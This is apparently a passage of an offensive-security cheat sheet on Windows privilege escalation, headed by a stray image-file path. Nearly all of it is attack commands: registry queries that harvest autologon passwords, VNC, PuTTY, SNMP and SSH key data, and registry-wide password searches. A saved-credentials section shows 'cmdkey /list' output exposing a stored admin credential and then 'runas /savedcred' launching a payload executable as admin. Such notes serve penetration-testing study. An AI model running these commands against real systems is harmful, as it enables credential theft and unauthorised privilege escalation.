 ```bat
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#--powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"

#--powerup
Get-RegistryAutoLogon

#VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"

#Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" /s

#Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# ssh
reg query "HKCU\Software\OpenSSH\Agent\Key"

#Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Cred

```bat
# check with wpeas
winpeasnay.exe quiet cmd windowscreds

C:\Windows\system32>cmdkey /list
cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin


C:\Windows\system32>runas /savedcred /user:admin c:\privesc\msh.exe
runas /savedcred /user:admin c:\privesc\msh.exe

```

